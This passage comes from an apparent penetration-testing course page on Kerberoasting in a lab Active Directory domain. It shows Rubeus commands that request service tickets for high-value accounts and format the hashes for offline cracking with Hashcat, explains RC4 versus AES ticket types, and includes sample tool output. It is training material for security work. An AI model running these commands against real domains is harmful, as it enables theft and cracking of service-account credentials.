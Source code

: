 ```powershell-session
 ------------------------------------------------------------
 | Supported Encryption Type                        | Count |
 ------------------------------------------------------------
 | RC4_HMAC_DEFAULT                                 | 7     |
 | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     |
 ------------------------------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2022                   | 9     |
 ----------------------------------
```
Let's use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat. Per the documentation, the ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function"; therefore, we won't have to worry about trimming white space or newlines before cracking with Hashcat.

#### Using the /nowrap Flag

  Using the /nowrap Flag

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

##### Note on encryption types
Kerberoasting tools typically request `RC4` Encryption when performing the attack and intiating `TGS-REQ` requests. This is because RC4 is weaker and easier to crack offline using tools such as hashcat that other encryption algorithms such as AES-128 and AES-256. When performing kerberoasting in most environments, receive an AES-256 (type 18) encrypted hash or hash that begins with `$krb5tgs$18$*`.


Its possible to crack AES-128(type 17), and AES-256(type 18) using hashcat. It will take a long time and consume a lot more cracking capability than RC4 (type 23) encrypted ticket, still possible especially if a weak password is chsoen.


Let's start by creating an SPN account named `testspn` and using Rubeus to Kerberoast this specific user to test this out. As we can see, we received the TGS ticket RC4 (type 23) encrypted.

  Using the /nowrap Flag

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : testspn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=testspn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : testspn
[*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
[*] PwdLastSet             : 2/27/2022 12:15:43 PM
```